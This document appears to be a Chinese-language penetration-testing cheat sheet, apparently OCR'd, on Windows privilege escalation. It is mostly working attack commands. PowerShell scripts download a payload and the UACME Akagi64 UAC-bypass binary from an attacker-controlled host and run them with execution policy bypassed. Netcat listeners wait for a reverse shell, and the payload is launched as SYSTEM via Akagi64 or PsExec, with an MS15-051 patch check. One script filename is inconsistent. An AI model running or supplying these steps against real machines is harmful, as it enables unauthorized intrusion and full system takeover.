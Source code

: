 # 使用 powershell 脚本上传 danger.exe 到目标机器
echo $client = New-Object System.Net.WebClient > script2.ps1
echo $targetlocation = "http://192.168.56.102/danger.exe" >> script2.ps1
echo $client.DownloadFile($targetlocation,"danger.exe") >> script2.ps1
powershell.exe -ExecutionPolicy Bypass -NonInteractive -File script2.ps1

# 使用预编译的二进制文件绕过 UAC:

https://github.com/hfiref0x/UACME

# 使用 powershell 脚本上传 https://github.com/hfiref0x/UACME/blob/master/Compiled/Akagi64.exe 到目标机器
echo $client = New-Object System.Net.WebClient > script2.ps1
echo $targetlocation = "http://192.168.56.102/Akagi64.exe" >> script3.ps1
echo $client.DownloadFile($targetlocation,"Akagi64.exe") >> script3.ps1
powershell.exe -ExecutionPolicy Bypass -NonInteractive -File script3.ps1

# 在 Kali 上创建监听
nc -lvp 4444

# 以系统权限使用 Akagi64 运行 danger.exe 
Akagi64.exe 1 C:/Users/User/Desktop/danger.exe

# 在 Kali 上创建监听
nc -lvp 4444

# 下一步就会反弹给我们一个提过权的 shell
# 以系统权限使用 PsExec 运行 danger.exe 
psexec.exe –i –d –accepteula –s danger.exe
以普通用户身份在 Win7 上反弹具有系统权限的 Shell
https://technet.microsoft.com/en-us/security/bulletin/dn602597.aspx #ms15-051

https://www.fireeye.com/blog/threat-research/2015/04/probable_apt28_useo.html


Exploit


# 查找目标机器是否安装了补丁，输入如下命令
wmic qfe get
wmic qfe | find "3057191"
